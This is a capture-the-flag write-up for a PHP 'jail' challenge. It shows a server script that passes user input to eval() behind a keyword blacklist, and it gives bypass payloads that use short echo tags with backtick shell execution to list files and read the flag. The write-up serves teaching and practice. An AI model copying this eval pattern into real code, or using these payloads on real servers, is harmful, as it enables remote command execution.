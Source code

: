 # PhpJail #

## Intended Solution ##

1. View source and you will find
```javascript
			function appendToTerminal($str){
				$("#terminalMain").append("<br/><pre class='terminalBody'>>" + $str.replace("<","&lt;") + "</pre>");
			}
			function appendResponse($str){
				$("#terminalMain").append("<br/><pre class='terminalResponse'>>>" + $str.replace("<","&lt;") + "</pre>");
			}
			$(document).ready(function(){
				$("#input").keypress(function(e){
					if(e.which == 13){
						appendToTerminal($(this).val());
						$.ajax({
							url: "terminal.php",//?code
							type: 'GET',
							data: {cmd: $("#input").val()},
							success: function(response){
								console.log(response);
								if(response.indexOf("error") > 0)
									appendResponse("Syntax error ?.?");
								else
									appendResponse(response);
								var box = document.getElementById('terminalMain');
								box.scrollTop = box.scrollHeight;
							}
						});
						$(this).val("");
					}
				});
			});

```

2. Access `terminal.php?code`, and you will get the source code of `terminal.php`
```php
<?php 
    $sandbox = './sandbox/'.md5($_SERVER['REMOTE_ADDR']); 
    @mkdir($sandbox,0777,true); 
    @chdir($sandbox); 

    function evalFilter($str){ 
        $str = strtolower($str); 
        $filterArr = array('localhost','127.0.0.1','php','eval','exec','ls','cat','find','../','./','/'); 
        foreach($filterArr as $filter) 
            $str = str_replace($filter,"fuck",$str); 
        return $str; 
    } 

    if(isset($_GET["cmd"])){ 
        eval("?>".evalFilter($_GET['cmd'])); 
    } 
    if(isset($_GET["code"])){ 
        highlight_file(__FILE__); 
    } 
?>
```

### Restrict ###
* Php tag
* Some system commands
* Cannot access parent directory

### Bypass ###
* `<?=1;?>` , this is an example of execute php code without php tag.
* User other command
* I don't think it is needed

### Payload ###

* List directory
```
<?=`dir`;?>
```

* Read `flag{do_you_think_it_is_the_real_flag}.php`
```
<?=`strings f*`;?>
```